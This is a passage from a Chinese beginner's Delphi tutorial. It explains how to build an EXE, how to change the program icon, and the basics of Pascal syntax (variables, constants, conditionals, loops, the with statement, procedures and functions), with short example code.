







### 1.3.2 生成 EXE 文件

刚才已经介绍了如何编写最简单的窗口程序，接下来我们就介绍在编写完程序后，如何将其生成 EXE 程序，这样就可以把生成的 EXE 程序分发给别人运行了。在编写完程序后，找到“Project”（工程）菜单下的“Options”（选项）子菜单，如图 1.19。

在弹出的选项对话框中，选择“Directories”（目录），然后单击“Output Directory”（输出目录），如图 1.20。在弹出的“浏览文件夹”对话框中可以选择要生成的 EXE 文件的目标目录，比如我们选择桌面，如图 1.21。

设置好生成 EXE 文件的目录后，就可以单击“Project”（工程）菜单下的“Build All Projects”（编译所有工程）子菜单，如图 1.22。我们现在来到桌面，就可以看到生成的 EXE 文件了，默认的文件名称是 Project1.exe，如图 1.23。

# 第一章 和我一起初识 Delphi

### 1.3.3 修改程序默认图标

DELPHI 程序默认生成的程序文件的图标比较丑陋，追求完美的编程爱好者又怎能容忍这样的程序图标呢？因此本节我来介绍一下如何修改程序的图标。

我们需要用到一款工具——IcoSprite，可以到 dragonkiss.ys168.com 下载该款软件，如图 1.24。双击运行程序后，点击“提取工具”按钮，如图 1.25。

在弹出的“图标提取工具”对话框中点击“添加目录”，选择一个包含有很多程序的目录，此时再点击“搜索选定目录”就会搜索程序的图标了，如图 1.26。

搜索出来的程序图标会默认保存在“C:\IcoSprite”中，可以看到很多程序的图标都被提取并保存下来了，如图 1.27。我们返回到 DELPHI 编辑器中，依次点击“PROJECT”－“OPTION”菜单，如图 1.28。

图 1.24

图 1.25

图 1.26

图 1.27

图 1.28

图 1.29

图 1.30

在弹出的程序选项对话框中点击“LOAD ICON”来载入 ICON 图标按钮，在弹出的打开对话框中选择一个你喜欢的程序图标就行了，如图 1.29。然后我们再使用上节中所介绍的方法来生成一个 EXE 文件，双击运行就可以了，如图 1.30。

### 1.4 PASCAL 的基础语法

在前边的内容中给大家介绍了一个 HELLO WORLD 的程序，要想进一步学习 DELPHI 编程的话还要学习它的语法，在本节中我们就主要介绍这些知识。这里介绍 PASCAL 语言只是作为简单的入门，以方便后面的章节中展开对 DELPHI 黑客编程的介绍，如果读者朋友想要深入研究 PASCAL 语法，我建议另外阅读专门的 PASCAL 语法书籍。

### 1.4.1 变量常量

#### 一、变量

变量就是存储数据时的一块内存区域，要操作数据一般就要使用到变量。Pascal 变量在使用前必须声明，声明变量时必须指定一种数据类型，下面就是变量声明的例子：

```pascal
var
  Value: Integer;
  IsCorrect: Boolean;
  A, B: Char;
```

关键字 var 可以在许多地方使用，例如放在函数或过程的开始部分，用来声明函数或过程的局部变量；也可以放在单元中，用于声明全程变量。

var 关键字之后是一组变量名列表，每个变量名后跟一个冒号和数据类型名，一行中可以声明多个变量，比如上例中的最后一句。一旦变量的类型被指定了，就只能对变量执行该变量类型支持的操作。使用简单的赋值语句，可以写出下面的代码：

```pascal
Value := 10;
IsCorrect := True;
```

但下面的这条语句却是不正确的，因为两个变量的数据类型不同，Value 之前是被定义为整型变量的：`Value := IsCorrect;`，在 Delphi 中编译这句代码时就会出现错误信息“Incompatible types: 'Integer' and 'Boolean'”（类型不兼容：“整型”和“布尔型”），如图 1.31。

图 1.31

像这样的错误通常都属于编程错误，因为把一个 True 或 False 的值赋给一个整型变量是没有什么意义的。想把变量的值从一种类型转换到另一种类型往往不难，在有些情况下类型转换会自动实现，不过一般情况下都需要调用特殊的系统函数，通过改变数据内部表示来实现类型转换。例如我们要把一个整型变量显示在窗口的标题栏中，通常就需要使用 INTTOSTR 函数来进行类型转换，如图 1.32。

图 1.32

在 Delphi 中，当你声明全程变量时，可以赋给它一个初值，例如我们可以这样写：

```pascal
var
  Value: Integer = 10;
  Correct: Boolean = True
```

这种初始化方法只能应用于全局变量，不能应用于过程或方法的变量，如图 1.33。

图 1.33

#### 二、常量

对于在程序运行期间保持不变的值，Pascal 允许通过常量来声明。声明常量不需要特定的数据类型，但需要赋一个初值，编译器会根据所赋初值自动选用合适的数据类型，例如：

```pascal
const
  Thousand = 1000;
  Pi = 3.14;
  AuthorName = 'Zhang bo';
```

就演示了使用常量来显示程序标题；如图 1.34，在点击按钮之后，程序就会把常量中的数据显示出来了，如图 1.35。

Delphi 根据常量的值来决定它的数据类型，上例中的 Thousand 变量，Delphi 会选用 SmallInt 数据类型（短整型——能容纳 Thousand 变量的最小整数类型），如果你想告诉 Delphi 采用特定的类型，则可以在声明中加入类型名，方法如下：

```pascal
const
  Thousand: Integer = 1000;
```

对于声明的常量，编译器有两种编译选择：第一种为常量分配内存，并把常量的值放入内存中；第二种是在常量每次使用时复制常量值，这种方法比较适合于简单常量。需要注意的是，16 位的 Delphi 允许你在程序运行期间改变已经定义的常量值，就像一个变量一样。而 32 位的 Delphi 为了向后兼容，仍然允许这种操作，只要你附加“{$J}”编译指令，或是选中“工程”选项对话框中 Compiler（编译器）页的 Assignable typed constants 复选框。

### 1.4.2 程序语句

如果说数据类型是 Pascal 编程的一个基础，那么另外一个就是语句了。编程语言的语句主要是由关键字和操作指令组成，语句通常放在过程或函数中，我们集中介绍一下最基础的编程语句。

#### 一、简单语句和复合语句

Pascal 简单语句中不包含任何别的语句，赋值语句和过程调用即是简单语句的例子，简单语句用分号“;”隔开，比如：

```pascal
X := Y + Z;   // 一个简单的赋值语句
Randomize;    // 一个调用过程的语句
```

同时还可以使用 begin 和 end 将简单语句括起来，这样就可以组成复合语句了，复合语句的用法与普通的 Pascal 语句相同，见下例：

```pascal
Begin   // 形成了一个复合语句
  A := B;
  C := A * 2;
end;
```

在 end 之前的最后一条语句的末尾分号不是必需的，因此我们也可以写成：

```pascal
begin
  A := B;
end;
```

以上这两种写法都是正确的，第一种只是多了一个无用（但也无害）的分号而已，分号实际上是一个空语句；也就是说，分号是一个没有代码的语句。有时，空语句可以应用在循环体或其它特殊情况中。

虽然最后一条语句末尾的分号没有用，我却总是习惯加上它，并且也建议大家这么做，因为有时我们可能会需要在末尾添加语句，如果最后没有加分号，那么就必须要记着加上它，与其如此还不如一开始就加上它呢。

#### 二、赋值语句

在 Pascal 语言中赋值语句用冒号加等号操作符“:=”来表示，对使用其它程序语言的编程者来说这是一个奇怪的符号。在其它语言中，用作赋值符号的“=”在 Pascal 中却是被用作关系运算符，用于判断是否相等。

```pascal
procedure TForm1.Button1Click(Sender: TObject);
var
  a: Integer;
  b: Integer;
begin
  a := 2008;      // 赋值运算
  b := 2009;
  if a = b then   // 比较运算
    ShowMessage('a=b')
  else
    ShowMessage('a<>b');
end;
```

程序如图 1.36 所示，因为 2008 和 2009 这两个变量是不相等的，所以点击按钮时，会显示出两者不等的提示，如图 1.37。

赋值和相等判断使用不同的符号，这使得 Pascal 编译器能够更快地解释源代码，因为这样就不需要通过检查上下文来判断符号的意义了，此外使用不同的操作符也使得代码更易读。

#### 三、条件语句

条件语句通过特定条件的检测来判断是否执行该条件语句中所包含的语句，条件语句有两种基本形式：if 语句和 case 语句。

##### 1、If 语句

对 if-then 型语句，仅当条件满足时语句才会被执行；而对于 if-then-else 型语句，则会在两条语句中选择一条来执行。条件使用布尔表达式建立，下面我们通过一个简单的 Delphi 例子来示范如何编写条件语句。

首先创建一个应用程序，在 form 上放置一个复选框（check box）和一个按钮（button），不要改变复选框和按钮的名字，双击按钮为其 OnClick 事件添加响应程序，下面是第一个按钮事件代码中一条简单的 if 语句，如图 1.38。

```pascal
procedure TForm1.Button1Click(Sender: TObject);
begin
  if CheckBox1.Checked = True then
    ShowMessage('CheckBox1 is checked');
end;
```

当点击 Button1，如果第一个复选框中有复选标记，这个程序就会显示一条消息。我使用了 ShowMessage 函数，因为它是 Delphi 中最简单的短信息显示函数。如果点击按钮后没有反应，表明复选框未被选中。对于这种情况，最好能交代得更清楚一些，因此我们再来使用 if-then-else 语句，如图 1.39。

```pascal
procedure TForm1.Button2Click(Sender: TObject);
begin
  if CheckBox2.Checked then
    ShowMessage('CheckBox2 is checked')
  else
    ShowMessage('CheckBox2 is NOT checked');
end;
```

需要注意的是，不能在 else 关键词之前加分号，否则编译器将会告知语法错误。实际上，if-then-else 语句是单纯的一条语句，因此不能在语句中间加分号。

if 语句可以很复杂，语句中的条件部分可以是一系列条件（使用 and、or、not 等布尔操作符连接起来），if 语句也可以嵌套另一个 if 语句，如图 1.40。

```pascal
procedure TForm1.Button1Click(Sender: TObject);
begin
  if CheckBox1.Checked then  // 复选框1被选中
    if CheckBox2.Checked then  // 复选框2被选中
      ShowMessage('CheckBox1 and 2 are checked!')
    else  // 复选框2没有选中
      ShowMessage('Only CheckBox1 is checked!')
  else  // 复选框1没有选中
    ShowMessage('CheckBox1 is not checked, who cares for CheckBox2?!');
end;
```

图 1.40

仔细阅读上面的代码并执行程序，看看自己是否能理解整个程序，当你搞不清某种编程结构时，可以先写一个简单的程序，这样可以帮你学习许多东西。我们也可以再添加几个复选框，以增加这个例子的复杂程度，并进行各种测试。

##### 2、Case 语句

如果 if 语句变得非常复杂，有时可以使用 case 语句代替它，case 语句包括用来选值的表达式、可能值序列或一个取值范围，这些值应该是常量，并且它们必须唯一，而且还应属于有序类型。Case 语句最后可以带一个 else 语句，当没有一个标签与选择器的值一致时，就执行 else 语句。下面是两个简单的例子，如图 1.41。

```pascal
procedure TForm1.Button1Click(Sender: TObject);
var
  i: Integer;
begin
  i := StrToInt(Edit1.Text);  // 把编辑框1中的内容赋值给变量i
  case i of
    1: ShowMessage('1');
    2: ShowMessage('2');
    3: ShowMessage('3');
  else
    ShowMessage('其他数字');
  end;
end;
```

如果输入的数字不是“1、2、3”中的一个，则显示为“其他数字”，如图 1.42。

图 1.41　　图 1.42

#### 四、循环语句

其它编程语言中使用的循环语句在 Pascal 语言中都有，它们包括 for、while 和 repeat 语句，如果大家使用过其它的编程语言，就会发现与 Pascal 中的循环语句没什么特别的，因此这里只作简要的说明。

##### 1、For 循环

Pascal 中的 for 循环严格地建立在计数器基础上，循环每执行一次，计数器不是增加一个值就是减小一个值。下面是一个 for 语句的简例，用来将前十个数加起来。

```pascal
var
  K, J: Integer;
begin
  K := 0;
  for J := 1 to 10 do
    K := K + J;
end;
```

同样的 for 语句可以用正好相反的计数器来写：

```pascal
var
  J, K: Integer;
begin
  K := 0;
  for J := 10 downto 1 do
    K := K + J;
end;
```

Pascal 中的 for 循环语句在灵活性方面比其它语言要小（它不能指定 1 之外的步长），如果需要判断的条件比较复杂，或者想自定义计数器的话，我们可以使用 while 语句或 repeat 语句，而不是 for 循环语句。for 循环计数器不必是数字，它可以是任何有序类型的值，比如是一个字符或一个枚举类型值，如图 1.43。

```pascal
procedure TForm1.Button1Click(Sender: TObject);
var
  I: Char;
begin
  for I := 'a' to 'z' do // 使用字符来循环
  begin
    ListBox1.Items.Add(I);
  end;
end;
```

图 1.43

##### 2、while 语句和 repeat 语句

while-do 循环语句和 repeat-until 语句的不同之处在于 repeat 循环语句的代码至少要执行一次，我们从下面的简例中可以很容易地理解这一点：

```pascal
while ((i <= 100) and (j <= 100)) do
begin
  i := i + 1;
  j := j + 1;
end;

repeat
  i := i + 1;
  j := j + 1;
until ((i > 100) or (j > 100));
```

从代码中可见，即使 i 或 j 的初始值大于 100，repeat-until 循环中的代码也仍然会执行一次。注意：这两种循环的另一个关键不同点在于，repeat-until 循环的条件是反向的条件，只要不满足这个条件，循环就执行；当条件满足时，循环终止。这正好与 while-do 循环相反，while-do 循环是当条件为真值时才执行。为此，我们不得不在上面的代码中使用反向条件来获得相同的结果，如图 1.44。

```pascal
procedure TForm1.Button1Click(Sender: TObject);
var
  i: Integer;
begin
  i := 0;              // 初始化 i 的值为 0
  repeat
    ListBox1.Items.Add(IntToStr(i));
    i := i + 1;        // i 首先为 0，循环 10 次
    Application.ProcessMessages; // 防止程序在循环中假死
  until i = 100;       // 到 100 就停止循环，也就是循环到 99
end;
```

图 1.44

图 1.45

## 第三章 和我一起初识 Delphi

我们再来演示一下如何使用循环语句来控制进度条的进度。首先在程序中添加一个 ProgressBar 进度条组件，然后再添加一个按钮组件，如图 1.45。双击按钮，然后编写如下的循环语句代码。

```pascal
procedure TForm1.Button1Click(Sender: TObject);
var
  i: Integer;
begin
  i := 0;              // 初始化 i 的值为 0
  ProgressBar1.Min := 0;
  ProgressBar1.Max := 99;

  repeat
    i := i + 1;        // i 首先为 0，循环 100 次
    Application.ProcessMessages;   // 防止程序在循环中假死
    ProgressBar1.Position := i;    // 设置进度条进度
  until i = 100;       // 到 100 就停止循环，也就是循环到 99
end;
```



图 1.46

现在，再次点击按钮，可以看到进度条快速地增加了，如图 1.46。注意：使用 Break 和 Continue 系统过程可以改变循环执行的标准流程，Break 是中断循环，Continue 则直接跳至循环测试语句，或使计数器增加一个步长，然后再继续循环（除非条件为空或计数器达到最大值）。还有两个系统过程 Exit 和 Halt，可以让你立即从函数或过程中返回，或者终止程序。

#### 五、With 语句

最后要介绍的是 With 语句，这是 Pascal 编程语言所独有的语句，不过最近 JavaScript 和 Visual Basic 也添加了这种语句。With 语句在 Delphi 程序设计中非常实用。

With 语句是一种用于简化代码的语句，比如你要访问一个记录类型变量（或一个对象），使用 With 语句就不必每次重复变量的名字了。例如对于以下的记录类型代码：

```pascal
type
  Date = record
    Year: Integer;
    Month: Byte;
    Day: Byte;
  end;

var
  BirthDay: Date;

begin
  BirthDay.Year := 1997;
  BirthDay.Month := 2;
  BirthDay.Day := 14;
```

我们就可以使用 With 语句来改进后半部分代码，如下：

```pascal
begin
  with BirthDay do
  begin
    Year := 1995;
    Month := 2;
    Day := 14;
  end;
```



图 1.47

在 Delphi 程序中，这种方法也能用于访问控件和类变量。下面，我们通过 With 语句来访问列表框的条目，重写上面循环例子的最后部分，如图 1.47。

```pascal
procedure TForm1.Button1Click(Sender: TObject);
var
  i: Integer;
begin
  i := 0;  // 初始化 i 的值为 0
  with ListBox1.Items do
  begin
    repeat
      i := i + 1;  // i 首先为 0，循环 100 次
      Application.ProcessMessages;  // 防止程序在循环中假死
      Add(IntToStr(i));  // 这里直接调用 VCL 的方法
    until i = 100;  // 到 100 就停止循环，也就是循环到 99
  end;
end;
```

当我们使用控件或类时，With 语句通常能简化你的代码，尤其是对嵌套域。比如你要改变窗体画笔的宽度和颜色，就可以编写如下的代码：

```pascal
Form1.Canvas.Pen.Width := 2;
Form1.Canvas.Pen.Color := clRed;
```

但如果使用 With 语句的话，代码就会变得更简单了：

```pascal
with Form1.Canvas.Pen do
begin
  Width := 2;
  Color := clRed;
end;
```

这将使代码的可读性变差，特别是对于有相似或相同属性的对象。更严重的是，使用 With 语句可能会在代码中引入微妙的逻辑错误，甚至连编译器都难以发现，例如：

```pascal
with Button1 do
begin
  Width := 200;
  Caption := 'New Caption';
  Color := clRed;
end;
```

这段代码改变了按钮的 Caption 和 Width 属性，但也改变了窗体的 Color 属性，而不是按钮的颜色。其原因是 TButton 控件没有 Color 属性，又由于执行的代码是针对窗体对象的（我们正在写窗体的方法，所以窗体对象也就成为了默认的访问对象）。如果这样写：

```pascal
Button1.Width := 200;
Button1.Caption := 'New Caption';
Button1.Color := clRed; // error!
```

编译器就会给出一个错误。通常，由于 With 语句在当前的块中定义了新的标识符，而省略了原有的标识符，可能就会引起在同一块内错误地访问另一个标识符（就像上面的这段代码）。但即使存在种种缺陷，我还是建议大家习惯使用 With 语句，因为 With 语句确实是非常便利的，并且有时也会使代码更容易读懂。当然，大家也应该避免使用多个 With 语句，比如“with ListBox1, Button1 do...”，这将会使后面的代码非常难读，因为对该块中定义的每一个属性，我们都要根据相应的属性以及控件的次序，才能退出所访问的控件。

说到可读性，大家需要知道在 Pascal 中没有 endif 或 endcase 语句。如果 if 语句有一个 begin-end 块，那么 end 标志着语句结束；另外，case 语句也总是以一个 end 结束。所有这些 end 语句，常常是一个接一个，使代码难以理解，只有通过缩排跟踪，才能看出一个 end 所对应的语句。解决这个问题的一个通用办法，也是使代码更可读的办法，就是在 end 后面添加注释，比如下例：

```pascal
if ... then
  ...
end; // if
```

本章节中我们描述了怎样编写条件语句和循环语句的代码。程序通常被分成例程、过程或函数，而不是把所有语句列成长长的列表。在接下来的这一章节中，我们将会介绍一些 Pascal 的高级内容。

### 1.4.3 过程和函数

Pascal 中的例程有两种形式：过程和函数。理论上说，过程是你要求计算机执行的操作，函数是能返回值的计算。两者突出的不同点在于：函数能返回计算结果，也就是有一个返回值，而过程没有。这两种类型的程序都可以带多个给定类型的参数。不过实际上函数和过程的差别并不大，因为我们可以调用函数来完成一系列操作，跳过其返回值（用可选的出错代码或类似的东西代替返回值）；也可以通过过程的参数传递计算结果（这种参数称为引用，在下一部分中将会介绍）。

```pascal
procedure Hello;  // 1、过程，无返回值
begin
  ShowMessage('Hello world!');
end;

function Double(Value: Integer): Integer;  // 2、函数，有返回值
begin
  Double := Value * 2;
end;

function Double2(Value: Integer): Integer;  // 3、函数，有返回值，使用到了 Result 关键字
begin
  Result := Value * 2;
end;
```

流行的做法是使用 Result 给函数赋返回值，而不是使用函数名，我认为这样的代码更易读。一旦定义了这些例程，就可以多次调用，其中调用过程可以执行操作；调用函数能计算返回值。如下：

```pascal
procedure TForm1.Button1Click(Sender: TObject);
begin
  Hello;
end;

procedure TForm1.Button2Click(Sender: TObject);
var
  X, Y: Integer;
begin
  X := Double(StrToInt(Edit1.Text));
  Y := Double(X);
  ShowMessage(IntToStr(Y));
end;
```



需要注意，现在不必考虑上面两个过程的语法，实际上它们是方法。只要把两个按钮（Button）放到一个 Delphi 窗体上，在设计阶段双击它们，Delphi IDE 就将产生合适的支持代码，我们只需要填上 begin 和 end 之间的那几行代码就可以了。编译上面的代码，我们需要在窗体中添加一个 Edit 控件。

现在回到我前面提到过的代码封装概念。当我们调用 Double 函数时，不需要知道该函数的具体实现方法；如果以后发现了更好的双倍数计算方法，我们只需要改变函数的代码，而调用函数的代码不必改变（尽管代码执行速度可能会加快）。

